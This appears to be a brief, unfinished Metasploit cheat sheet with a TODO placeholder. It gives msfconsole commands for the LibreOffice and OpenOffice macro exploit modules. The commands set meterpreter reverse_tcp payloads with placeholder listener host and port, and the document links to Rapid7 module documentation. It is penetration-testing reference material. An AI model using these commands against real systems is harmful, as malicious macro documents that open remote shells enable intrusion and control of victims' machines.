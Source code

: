 # Metasploit

TODO: Fill in the information

## LibreOffice Macro

```
msf > use exploit/multi/fileformat/libreoffice_macro_exec

set filename 
```

## OpenOffice Macro

```
msf > use exploit/multi/misc/openoffice_document_macro

set target 0

set payload windows/x64/meterpreter/reverse_tcp
```

```
set target 1

set payload python/meterpreter/reverse_tcp
```

```
set lhost <IP>

set lport <PORT>
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Exploit FileFormat LibreOffice Macro Exec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/fileformat/libreoffice_macro_exec.md)

- [Rapid7: Metasploit Framework Exploit Miscellaneous OpenOffice Macro Exec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/misc/openoffice_document_macro.md)